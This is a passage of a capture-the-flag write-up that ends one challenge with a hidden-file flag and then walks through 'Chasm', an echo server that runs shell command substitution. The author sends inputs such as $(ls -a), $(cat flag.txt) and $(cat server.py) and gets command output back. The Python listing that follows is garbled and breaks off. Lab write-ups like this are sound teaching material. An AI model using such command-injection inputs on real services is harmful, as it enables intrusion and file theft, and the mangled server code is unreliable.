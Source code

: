 ```sh
user@ebbb47e22daa:~$ ls -la .secret/
total 12
drwxr-xr-x 1 root root 4096 Mar 30 00:12 .
dr-xr-xr-x 1 user user 4096 Oct 28 19:13 ..
-rw-r--r-- 1 root root   33 Mar 30 00:12 ._dont_delete_me.txt
```
<br/>
People are dicks...
<br/>
:checkered_flag: `LLS{you_found_my_hidden_secrets}`
<br/>
<br/>

### Chasm (60) :trophy:
> The Internet’s new echo server. Break it.

We are given `nc jh2i.com 50006`  
<br/>
Greeted with:
```sh
'Chasm' echo server 1.0
> echo
ECHO: echo
```
<br/>
This is something...
```sh
> $0
ECHO: /bin/sh
```
<br/>
```sh
> $(pwd) 
ECHO: /home/john
```
<br/>
```sh
> $(ls -a)
ECHO: . .. flag.txt server.py
```
<br/>
Damn...
```sh
> $(cat flag.txt)
HACKER! YOU ARE A HACKER! GET OUT OF THE CHASM!
```
<br/>
Let's check out that python file.
```sh
> $(cat server.py)
```
```python
#!/usr/bin/env python

#- * -coding: utf - 8 - * -#@Author: john# @Date: 2017 - 01 - 16 10: 17: 31# @Last Modified by: john# @Last Modified time: 2017 - 02 - 10 22: 17: 34
import sys
import textwrap
import SocketServer
import string
import readline
import threading from time
import flag.txt server.py from subprocess
import check_output
debug = True
```